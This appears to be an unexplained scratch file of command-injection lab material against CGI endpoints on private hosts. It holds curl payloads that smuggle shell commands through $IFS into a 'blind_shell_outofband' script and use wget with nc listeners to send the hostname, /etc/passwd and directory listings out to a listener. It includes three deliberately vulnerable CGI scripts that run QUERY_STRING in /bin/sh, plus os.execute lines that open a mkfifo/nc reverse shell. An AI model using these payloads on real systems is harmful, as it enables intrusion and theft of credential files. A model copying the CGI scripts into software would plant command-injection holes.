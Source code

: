 echo -ne '\n\n' | nc -q 2 -C -lp 8000 & curl 'http://192.168.102.5:8080/cgi-bin/blind_shell_outofband?wget$\{IFS\}http://<IP GOES HERE>:8000/`hostname|base64`'



tcpdump -i eth0 -n icmp -c 3 2>/dev/null && curl -s 'http://192.168.102.5:8080/cgi-bin/blind_shell_outofband?ping$\{IFS\}192.168.102.2'



echo -ne '\n\n' | nc -q 2 -C -lp 8000 & curl -s 'http://192.168.102.5:8080/cgi-bin/blind_shell_outofband?wget$\{IFS\}http://<IP GOES HERE>:8000/$\{IFS\}--post-data=`cat$\{IFS\}/etc/passwd|base64|tr$\{IFS\}-d$\{IFS\}"\n"`'



echo -ne '\n\n' | nc -q 2 -C -lp 8000 & curl -s 'http://192.168.102.5:8080/cgi-bin/blind_shell_outofband?wget$\{IFS\}http://192.168.102.2:8000/$\{IFS\}--post-data=`ls$\{IFS\}\/tmp|base64|tr$\{IFS\}-d$\{IFS\}"\n"`'




echo -ne '\n\n' | nc -q 2 -C -lp 8000 & curl 'http://192.168.102.5:8080/cgi-bin/blind_shell_outofband?wget$\{IFS\}http://192.168.102.2:8000/$\{IFS\}--post-data=`ls$\{IFS\}\-ltr>/tmp/luisco.txt`'






blind_shell_outofband

#!/bin/sh
echo "Content-type: text/html"
echo ""
echo "<html><body><pre>"
#echo "Received command is: "
#echo $QUERY_STRING
cmd=$QUERY_STRING
#echo "Command output is: "
(/bin/sh -c $cmd) > /dev/null &
echo "</pre></body></html>"
echo ""
echo ""


blind_shell

#!/bin/sh
echo "Content-type: text/html"
echo ""
echo "<html><body><pre>"
#echo "Received command is: "
#echo $QUERY_STRING
cmd=$QUERY_STRING
#echo "Command output is: "
(/bin/sh -c "$cmd") > /dev/null
echo "</pre></body></html>"
echo ""
echo ""


shell

#!/bin/sh
echo "Content-type: text/html"
echo ""
echo "<html><body><pre>"
#echo "Received command is: "
#echo $QUERY_STRING
cmd=$QUERY_STRING
#echo "Command output is: "
(/bin/sh -c "$cmd") 2>&1
echo "</pre></body></html>"
echo ""
echo ""



echo "nc 10.9.0.106 1288" > /tmp/zz

10.9.0.162

os.execute("/bin/sh -c &apos;(ping -c2 10.9.0.162 )&apos;")


os.execute("/bin/sh -c &apos;(rm /tmp/zz;mkfifo /tmp/zz;cat /tmp/zz | /bin/sh -i 2>&1 | nc 10.9.0.162 4242)&apos;")

os.execute("/bin/sh -c &apos;(rm /tmp/zz;mkfifo /tmp/zz;cat /tmp/zz | /bin/sh -i 2>&1 | nc 10.9.0.162 4242)&apos;")


